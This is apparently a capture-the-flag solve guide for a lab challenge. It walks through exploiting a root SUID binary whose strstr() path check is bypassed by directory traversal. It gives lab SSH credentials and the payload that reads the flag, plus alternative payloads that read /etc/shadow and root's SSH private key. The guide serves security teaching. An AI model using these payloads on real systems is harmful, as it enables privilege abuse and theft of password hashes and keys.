










# 🔴 Red Team — M5: nova-archive Solve Guide

**Challenge:** SUID Binary — strstr() Path Traversal Bypass  
**Technique:** T1548.001 — Abuse Elevation Control Mechanism: Setuid and Setgid  
**Entry Point:** SSH as `archivist` / `Arch1v1st99`

**Validated M5 address for this single-host deployment:** `10.0.2.15`

---

## Step 1 — SSH Login

First verify the local address:

```bash
ip -4 addr show
```



Connect to the validated M5 address:

```bash
ssh -o StrictHostKeyChecking=no archivist@10.0.2.15
# Password: Arch1v1st99
```



---

## Step 2 — Read the Hint

```bash
cat ~/README.txt
```



A tool called `safereader` exists for reading archive documents.

---

## Step 3 — Inspect the Binary

```bash
ls -la /usr/local/bin/safereader
```



Output:
```
-rwsr-xr-x 1 root root ... /usr/local/bin/safereader
```

The `s` in the owner execute position = **SUID bit** — the binary runs as root regardless of who executes it.

---

## Step 4 — Test Normal Usage

```bash
safereader /opt/archive/quarterly_report.txt
```



Works fine. The binary restricts files to `/opt/archive`.

---

## Step 5 — Analyze the Restriction

The binary uses `strstr(path, "/opt/archive")` to check if the provided path contains
the substring `/opt/archive`. This is **NOT** the same as checking if the path starts with
`/opt/archive`.

Confirm the embedded archive path and imported `strstr` symbol:

```bash
strings /usr/local/bin/safereader | grep '/opt/archive'
```



```bash
nm -D /usr/local/bin/safereader | grep strstr
```



---

## Step 6 — Exploit: Path Traversal Bypass

Craft a path that CONTAINS `/opt/archive` but resolves to a different location:

```bash
safereader "/opt/archive/../../../root/flag5.txt"
```



**Why it works:**
- `strstr("/opt/archive/../../../root/flag5.txt", "/opt/archive")` → finds the substring ✓
- `fopen("/opt/archive/../../../root/flag5.txt", "r")` → OS resolves to `/root/flag5.txt`
- Binary runs as root (SUID) → can read root-owned files ✓

---

## Alternative Payloads

```bash
# Read /etc/shadow
safereader "/opt/archive/../../../etc/shadow"
```



```bash
# Read SSH private keys
safereader "/opt/archive/../../../root/.ssh/id_rsa"
```



---

## Flag Location
`/root/flag5.txt`
